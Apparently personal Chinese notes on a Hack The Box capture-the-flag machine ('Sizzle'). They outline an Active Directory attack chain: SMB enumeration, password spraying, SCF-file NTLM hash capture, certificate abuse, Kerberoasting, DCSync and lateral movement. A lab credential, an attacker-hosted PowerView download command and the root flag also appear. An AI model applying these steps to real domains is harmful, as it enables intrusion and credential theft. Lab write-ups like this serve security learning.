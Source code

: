21端口 匿名登录成功 但无回显
53 dns
80 http iis 10.0 TRACE方法
135 rpc端口
139 445 smb端口
389 ldap端口 663 ssl/ldap
443 https
593 ncacn_http
5985 winrm

21 ftp 无数据
80 443 端口 无明显信息
smb端口尝试

domain：HTB.LOCAL
列出共享文件夹
Department Shares共享文件夹 
发现一堆username
当发现一堆users之后的做法
密码喷洒 发现一个有效的username
amanda_adm 有效用户名

ldap枚举失败 无有效密码

自制字典 密码喷洒？
绑定host 查看web

本地挂载共享
递归访问
寻找可写目录

scf文件存放到smb可写目录 获得NTLM Hash
尝试离线破解

smbmap -H 10.10.10.103 -u amanda -p Ashare1972
在获取得了一组有效凭据后 检查是否有别的可读共享
evil-winrm 尝试登录
ldapdomaindump 枚举信息
web尝试撞库


SMB 共享中的可写目录允许窃取 NTLM 哈希，
破解这些哈希可访问证书服务门户。
可以使用 CA 创建自签名证书并将其用于 PSRemoting

sudo mount -t cifs "//10.10.10.103/Department Shares" /mnt


openssl genrsa -aes256 -out amanda.key 2048
openssl req -new -key amanda.key -out amanda.csr
对amanda.csr进行签名

iwr -uri http://10.10.16.9/PowerView.ps1 -outfile PowerView.ps1

关键字
Sizzle


总结
smb可写目录 捕获NTLM v2 Hash
获得初始shell
Kerberoasting获取第二个用户shell

然后运行bloodhound 寻找提权路径
该用户具有GetChanges和GetChangesAll权限
可以进行DCSync攻击 

导出数据后 
crackmapexec进行Hash碰撞
wmiexec横向



root
646873da6599e741dcbe85150d427e01